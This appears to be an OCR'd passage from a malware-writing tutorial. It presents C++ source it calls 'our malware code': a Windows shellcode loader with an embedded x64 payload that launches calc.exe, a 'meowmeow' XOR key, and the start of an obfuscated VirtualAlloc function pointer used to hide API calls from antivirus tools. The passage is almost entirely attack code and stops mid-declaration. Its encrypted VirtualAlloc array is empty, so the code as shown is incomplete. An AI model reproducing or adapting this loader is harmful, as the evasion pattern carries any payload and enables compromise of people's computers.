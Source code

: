 So, the final version of our malware code is:    

```cpp
/*
cpp implementation malware 
example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

// XOR encrypted VirtualAlloc
unsigned char cVirtualAlloc[] = { };
unsigned int cVirtualAllocLen = sizeof(cVirtualAlloc);

// encrypt/decrypt key
char mySecretKey[] = "meowmeow";

// LPVOID VirtualAlloc(
//   LPVOID lpAddress,
//   SIZE_T dwSize,
//   DWORD  flAllocationType,
//   DWORD  flProtect
// );

LPVOID (WINAPI * pVirtualAlloc)(
    LPVOID lpAddress, 
    SIZE_T dwSize, 
    DWORD flAllocationType, 
    DWORD flProtect
```